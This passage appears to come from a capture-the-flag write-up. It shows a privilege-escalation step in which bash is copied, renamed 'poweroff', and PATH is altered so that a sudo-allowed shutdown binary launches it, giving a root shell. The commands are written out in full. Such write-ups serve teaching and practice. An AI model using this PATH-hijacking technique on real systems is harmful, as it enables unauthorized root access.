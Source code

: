 2\. We copy bash to the local directory, rename it to `poweroff` and modify the `PATH` environment variable to search for file within current directory first. With this change, we then execute `shutdown` file and get elevated privileges:  
```
cp /bin/bash ./
mv ./bash poweroff
ls -la poweroff /bin/bash
md5sum poweroff /bin/bash
sudo /usr/sbin/shutdown
```

![writeup.privesc.steps.2.1](/static/files/posts_thm_yotf/screenshot14.png.webp)  

![writeup.privesc.steps.2.2](/static/files/posts_thm_yotf/screenshot15.png.webp)  